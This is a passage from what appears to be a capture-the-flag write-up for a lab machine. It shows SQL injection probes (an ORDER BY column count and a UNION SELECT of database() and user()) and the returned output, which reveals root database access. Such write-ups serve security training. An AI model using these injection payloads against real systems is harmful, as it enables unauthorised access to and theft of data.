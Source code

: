```html
<table width='90%'><tr><th>ID</th><th>User</th></tr>
<tr>
  <td>1</td>
  <td>admin</td>
</tr>

<tr>
  <td>2</td>
  <td>gio</td>
</tr>

<tr>
  <td>3</td>
  <td>bubba</td>
</tr>
</table>
```

Next is to figure out who this SQL statement is running as and in what database. To do that, an SQL UNION query can be used. However, to run a UNION query, the number of columns is needed. To get the number of columns, use `1' ORDER BY <x> #` and replace `<x>` with the number of columns to test for. After setting `x` to 4, the Python3 script returns the following:

- **NOTE:** `ORDER BY` documentation: https://mariadb.com/kb/en/order-by/

```
There is a problem with your SQL syntax
```

So the number of columns in the current table is 3. Use this to craft `1' UNION SELECT database(),user(),'?' #` as the SQL payload for the Python3 script to get the following:

- **NOTE:** `USER()` function documentation: https://mariadb.com/kb/en/user/
- **NOTE:** `DATABASE()` function documentation: https://mariadb.com/kb/en/database/
- The third column (`?`) seems to not be returned in the HTML table created by PHP

```html
<table width='90%'><tr><th>ID</th><th>User</th></tr>
<tr>
  <td>1</td>
  <td>admin</td>
</tr>

<tr>
  <td>bankrobber</td>
  <td>root@localhost</td>
</tr>
</table>
```

So this query executes as the `root` user with complete access to the `bankrobber` database! Using this new access, an SQL query can be used to get information about `http://10.10.10.154/admin/backdoorchecker.php`. From `NOTES.TXT`, it is known that the system is using XMAPP with default install locations. From https://www.apachefriends.org/faq_windows.html, these locations are:

